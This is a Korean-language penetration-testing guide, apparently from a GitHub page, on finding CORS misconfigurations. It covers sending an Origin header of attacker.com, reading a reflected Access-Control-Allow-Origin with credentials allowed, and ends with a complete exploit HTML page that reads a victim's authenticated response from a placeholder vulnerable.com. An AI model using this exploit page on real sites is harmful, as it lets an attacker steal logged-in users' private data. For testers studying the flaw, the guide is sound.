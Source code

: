 ## 1. 민감한 정보를 반환하는 요청 식별
웹 브라우저에 ZAP 프록시 또는 Burp Suite 프록시 도구를 설정하고 웹 애플리케이션 도구를 모두 사용해본다. 탐색하면서 사용자의 개인 정보나 민감한 정보가 응답에 포함된 경우 엔드포인트를 찾는다

## 2. CORS 취약 여부 테스트
식별한 엔드포인트를 이용해 아래와 같이 임의의 출처가 지정된 Origin 헤더를 추가하거나 이미 존재하는 경우 Origin 헤더의 출처를 변경하여 요청해본다
사용하는 출처는 어디라도 상관없다
```
Origin: https://attacker.com
```
그리고 요청을 통해 반환되는 응답 메세지에 CORS를 위해 사용되는 응답 헤더가 포함되는지 또는 이미 존재할 경우 ACAO 헤더에 어떤 변화가 있는지 확인한다. 응답 메시지에 아래와 같은 유형으로 CORS 관련 헤더가 표시되면 해당 엔드포인트는 잠재적으로 취약하고 악용이 가능할 수 있다.


### 1. 반사된 ACAO, True ACAC
Origin 요청 헤더를 통해 전송된 출처가 그대로 ACAO 응답 헤더에 반사되어 표시되고 ACAC 헤더가 True가 설정되어있는 경우이다.
```
HTTP/1.1 200 OK
...생략...
Access-Control-Allow-Origin: https://attacker.com
Access-Control-Allow-Credentials: True
...생략..
```
이와 같은 형태의 응담이 CORS 구성 테스트를 하며 만나볼 수 있는 최상의 사례이다. 만약 서버가 Origin 헤더의 값에 대해 어떠한 검증도 하지 않는다면 테스터는 자신의 웹 사이트에서 호스팅 되는 아래와 같은 익스플로잇 페이지를 통해 응답 메시지에 표시된 민감한 데이터를 획득 할 수도 있다.
```
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
	       var xhr = new XMLHttpRequest();
		xhr.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
		        	document.getElementById("demo").innerHTML = this.responseText;
	        	}
         	};
         	xhr.open("GET", "https://vulnerable.com/path_to_get_data", true); //취약한 웹의 진입점으로 변경
         	xhr.withCredentials = true;
         	xhr.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS Exploit</h2>
      <h3>Response contents</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>
```
